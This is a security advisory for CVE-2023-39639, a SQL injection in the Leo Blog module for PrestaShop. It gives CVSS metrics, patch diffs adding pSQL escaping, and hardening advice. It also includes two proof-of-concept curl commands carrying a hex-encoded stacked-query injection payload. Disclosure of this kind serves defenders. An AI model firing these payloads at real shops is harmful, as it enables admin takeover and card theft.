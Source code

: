 ```yaml
---
layout: post
title: "[CVE-2023-39639] Improper neutralization of SQL parameter in LeoTheme - Leo Blog module for PrestaShop"
categories: modules
author:
- TouchWeb.fr
- 202 Ecommerce
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,leoblog"
severity: "critical (9.8)"
---
```


In the module "Leo Blog" (leoblog) up to version 3.1.2 from LeoTheme for PrestaShop, a guest can perform SQL injection in affected versions.


## Summary

* **CVE ID**: [CVE-2023-39639](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39639)
* **Published at**: 2023-08-31
* **Platform**: PrestaShop
* **Product**: leoblog
* **Impacted release**: <= 3.1.2 (3.1.3 fixed the vulnerability)
* **Product author**: LeoTheme
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

Methods `LeoBlogBlog::getListBlogs`, `LeoBlogBlog::countBlogs`, `LeoBlogBlog::findByRewrite` and `Leoblogcat::findByRewrite` have sensitive SQL calls that can be executed with a trivial http call and exploited to forge a SQL injection.

**WARNING** : This exploit is actively used to deploy a webskimmer to massively steal credit cards.

This exploit uses a PrestaShop front controller and most attackers can conceal the module controller's path during the exploit, so you will never know within your conventional frontend logs that it exploits this vulnerability. **You will only see "POST /" inside your conventional frontend logs.** Activating the AuditEngine of mod_security (or similar) is the only way to get data to confirm this exploit.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Obtain admin access
* Remove data from the associated PrestaShop
* Copy/paste data from sensitive tables to FRONT to expose tokens and unlock admins' ajax scripts
* Rewrite SMTP settings to hijack emails


## Proof of concept

POC 1 (SEEN IN 3.0.0) : 

```bash
curl -v "https://preprod.XX/module/leoblog/list?author=42@test.fr%22;select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--"
```

POC 2 (SEEN IN 3.0.6-) : only work if configuration `url_use_id` is set to 0

```bash
curl -v "https://preprod.XX/module/leoblog/blog?id=1';select(0x73656C65637420736C656570283432293B)INTO@a;prepare\`b\`from@a;execute\`b\`;--"
```

## Patch from 3.X

```diff
--- 3.0.0/modules/leoblog/classes/blog.php
+++ 3.1.3/modules/leoblog/classes/blog.php
    public static function findByRewrite($parrams)
    {
        $id_lang = (int)Context::getContext()->language->id;
        $id_shop = (int)Context::getContext()->shop->id;
        $id = 0;
        if(isset($parrams['link_rewrite']) && $parrams['link_rewrite'])
        {
            $sql = 'SELECT bl.id_leoblog_blog FROM '._DB_PREFIX_.'leoblog_blog_lang bl';
            $sql .= ' INNER JOIN '._DB_PREFIX_.'leoblog_blog_shop bs on bl.id_leoblog_blog=bs.id_leoblog_blog AND id_shop='.$id_shop;
-           $sql .= ' WHERE id_lang = ' . $id_lang ." AND link_rewrite = '".$parrams['link_rewrite']."'";
+           $sql .= ' WHERE id_lang = ' . $id_lang ." AND link_rewrite = '".pSQL($parrams['link_rewrite'])."'";
...
    public static function getListBlogs($id_category, $id_lang, $page_number, $nb_products, $order_by, $order_way, $condition = array(), $is_active = false, $id_shop = null)
    {
...
                    else
					{
-						$where .= ' AND author_name LIKE "%'.$condition['author_name'].'%"
+						$where .= ' AND author_name LIKE "%'.pSQL($condition['author_name']).'%"
...
    public static function countBlogs($id_category, $id_lang, $condition = array(), $is_active = false, $id_shop = null)
    {
...
                    else
					{
-						$where .= ' AND author_name LIKE "%'.$condition['author_name'].'%"';
+						$where .= ' AND author_name LIKE "%'.pSQL($condition['author_name']).'%"';

```

```diff
--- 3.0.0/modules/leoblog/classes/leoblogcat.php
+++ 3.1.3/modules/leoblog/classes/leoblogcat.php
    public static function findByRewrite($parrams)
    {
        $id_lang = (int)Context::getContext()->language->id;
        $id_shop = (int)Context::getContext()->shop->id;
        $id = 0;
        if(isset($parrams['link_rewrite']) && $parrams['link_rewrite'])
        {
            $sql = 'SELECT cl.id_leoblogcat FROM '._DB_PREFIX_.'leoblogcat_lang cl';
            $sql .= ' INNER JOIN '._DB_PREFIX_.'leoblogcat_shop cs on cl.id_leoblogcat=cs.id_leoblogcat AND id_shop='.$id_shop;
            $sql .= ' INNER JOIN '._DB_PREFIX_.'leoblogcat      cc on cl.id_leoblogcat=cc.id_leoblogcat AND cl.id_leoblogcat != cc.id_parent';  # FIX : PARENT IS NOT THIS CATEGORY
-           $sql .= ' WHERE id_lang = ' . $id_lang ." AND link_rewrite = '".$parrams['link_rewrite']."'";
+           $sql .= ' WHERE id_lang = ' . $id_lang ." AND link_rewrite = '".pSQL($parrams['link_rewrite'])."'";

```

## Other recommendations

* It’s recommended to upgrade to the latest version of the module **leoblog**.
* To help improve the security of your PrestaShop installation, we recommend upgrading to the latest version. One of the benefits of upgrading is that it will disable the use of multiquery executions (separated by semicolons). However, please be aware that this **will not protect** your shop against SQL injection attacks that use the UNION clause to steal data. Additionally, it's important to note that PrestaShop includes a function called pSQL, which includes a strip_tags function. This helps protect your shop against [Stored XSS (also known as XSS T2) of Category 1](https://security.friendsofpresta.org/modules/2023/02/07/stored-xss.html). If a pSQL function is missing, it could potentially expose your project to critical Stored XSS vulnerabilities due to edge cases. Therefore, it's crucial to ensure that all relevant functions are properly implemented and used consistently throughout your project.
* Change the default database prefix `ps_` with a new longer, arbitrary prefix. Nevertheless, be warned that this is useless against blackhats with DBA senior skills because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against this set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-05-13 | Issue discovered during a code review by [TouchWeb.fr](https://www.touchweb.fr) |
| 2023-05-13 | Contact PrestaShop Addons security Team to confirm versions scope by author |
| 2023-05-16 | PrestaShop Addons security Team confirm versions scope |
| 2023-05-19 | Request a CVE ID |
| 2023-08-29 | Received CVE ID |
| 2023-08-29 | Publish this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/fr/2_community-developer?contributor=190902&id_category=3)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2023-39639)
